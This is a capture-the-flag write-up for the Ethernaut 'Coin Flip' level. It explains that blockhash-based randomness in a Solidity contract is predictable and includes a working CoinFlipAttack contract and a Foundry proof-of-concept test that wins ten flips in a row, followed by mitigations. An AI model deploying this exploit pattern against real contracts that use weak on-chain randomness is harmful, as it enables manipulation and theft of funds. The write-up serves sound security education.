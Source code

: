 # Level 3 - Coin Flip

## Objectives

- guess the correct outcome of the game 10 times in a row

## Contract Overview

The `CoinFlip` contract is a simple game where there's only one function `flip()` where user has to supply his guess, either `true` or `false`. If user's guessed bool matches the value of the side variable, then the `consecutiveWins` will be increased. `consecutiveWins` is initially set to 0 inside the constructor and it is again set to zero if user's guess is wrong. The goal of the game is to get the most consecutive wins.

In other words the contract is supposed to work as follows:

- Users can guess the number by calling `flip()` function and passing their
  guess as an argument to the `_guess` parameter
- If user's guessed bool matches the value of the side variable, then the `consecutiveWins` will be increased

```solidity
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

- `consecutiveWins` is initially set to 0 inside the constructor and it is again set to zero if user's guess is wrong

```solidity

  constructor() {
      consecutiveWins = 0;
  }
```

- The goal of the game is to get the most consecutive wins

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/CoinFlip_slither.png)

## Finding the weak spots

In this contract the weak spot is problem with randomness. Ethereum is a deterministic Turing machine, with no inherent randomness involved. To generate randomness in Ethereum developers often make use of data related to the blocks, i.e., block number, hash, etc. These variables may look random but are actually deterministic and can be exploited if the inputs are known. We have such problem in `CoinFlip` contract.

This weak spot can be abused by the attacker who have access to the source code of the smart contract and can reverse the game logic and calculate the winning condition in advance.

My goal is to get `consecutiveWins` up to 10. This variable is updated in `flip` function.

```solidity
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
```

Let's look into how the `side` variable is getting its value. In the first line of the `flip` function, we can see the source of randomness named `blockValue`. This is then divided by the `FACTOR` which is also available to us and the result is stored int the variable `coinFlip`. If the value of coinFlip is 1, then the side will be set to true, otherwise, false.

```solidity
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  uint256 blockValue = uint256(blockhash(block.number - 1));

  uint256 coinFlip = blockValue / FACTOR;
```

We will be able to solve this challange if our `_guess` would be equal to computation variable `side` 10 times in a row. That's why we have to deploy a custom contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will contain an attack function that calculates the outcome of the game in advance. He can call this function each block and score 10 consecutive wins easily.

## Plan of the attack

1. Attacker creates the malicious contract that will contain `flip` function that calculates the outcome of the game in advance.
2. Attacker calls the `flip` function from the malicious contract.
3. Attacker will repeat the attack in 10 consecutive blocks.

## Malicious contract (CoinFlipAttack.sol)

We will be able to solve this challange if our `_guess` would be equal to computation variable `side` 10 times in a row. That's why we have to deploy a custom malicious contract simulating the exact same coin flipping logic and calling the real challenge contract with this result.

Attacker should call the `flip` function from the malicious contract. The `flip` function calculates the outcome of the game -> boolean value
`side`. The `flip` function from the malicious contract calls the `flip()` function inside the `CoinFlip` contract. It passes the calculated `side` value as an argument to the `_guess` parameter of the `flip()` function.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {
    CoinFlip victimContract;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victimContractAddress) public {
        victimContract = CoinFlip(_victimContractAddress);
    }

    function flip() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        victimContract.flip(side);
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/03-CoinFlip.t.sol))

```solidity
 // Malicious contract that contains `flip` function that calculates the outcome of the game in advance
        CoinFlipAttack coinFlipAttack = new CoinFlipAttack(levelAddress);

        emit log_named_uint(
            "Attacker's score before the attack: ",
            coinFlipContract.consecutiveWins()
        );
        emit log_string(
            "Attacker runs the exploit for 10 consecutive blocks..."
        );

        // Attack will be repeated in 10 consecutive blocks
        for (uint256 i = 1; i <= 10; i++) {
            vm.roll(i); // cheatcode to simulate running the attack on each subsequent block; we are using vm.roll() to create the next block
            // Calling the `flip` function from the malicious contract
            coinFlipAttack.flip();
            emit log_named_uint(
                "Consecutive wins: ",
                coinFlipContract.consecutiveWins()
            );
        }

        // Test assertion
        assertEq(coinFlipContract.consecutiveWins(), 10);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/CoinFlip.png)

## Recommendations

- `CoinFlip` contract can be easily exploited by abusing the Weak PRNG. This can
  be used both by the miners and the potential malicious users.
  - The use of Chainlink VRF or RANDAO is recommended for generating randomness.
- The `flip()` function does not check if the caller is a contract. Such a check
  would prevent attacks like the one presented in the Proof of Concept. An
  example of such validation would be wrapping the logic of the `flip()`
  function in the `if / else` statement like the one shown below:

```solidity
function flip(bool _guess) public returns (bool) {
	if (msg.sender == tx.origin) {
		/*
		* LOGIC HERE
		*/
	}
	else {
		revert("Caller cannot be a contract!");
	}
}
```

- This however would not solve the problem completely. The attacker could still
  calculate the outcome of the game externally and call the `flip()` function
  manually or automate the whole process via a `bash` script.

## Additional information

You can also read my other solution (using Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/3.-coin-flip-problem-of-randomness

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
